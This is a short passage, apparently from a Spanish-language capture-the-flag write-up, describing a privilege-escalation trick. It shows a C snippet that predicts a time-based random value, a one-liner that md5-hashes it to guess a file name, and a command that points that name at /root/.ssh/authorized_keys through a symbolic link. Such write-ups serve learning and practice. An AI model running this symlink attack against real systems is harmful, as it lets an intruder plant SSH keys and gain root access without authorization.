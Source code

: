 ```c
	printf("%d", rand());
	return 0;
}
```

Esto nos da el valor que tendra el tiempo en el archivo que se creara, solo queda obtener el valor del ID, juntarlo y convertirlo a **md5**. z

Para obtener el valor completo que tendria el archivo podemos crear el siguiente **onliner**:
```
# echo -n "$(./scriptTime)<id>" | md5sum; echo
```

Con el valor, podemos proceder a crear el enlace simbolico:
```
ln -s -f /root/.ssh/authorized_keys <file-value>
```








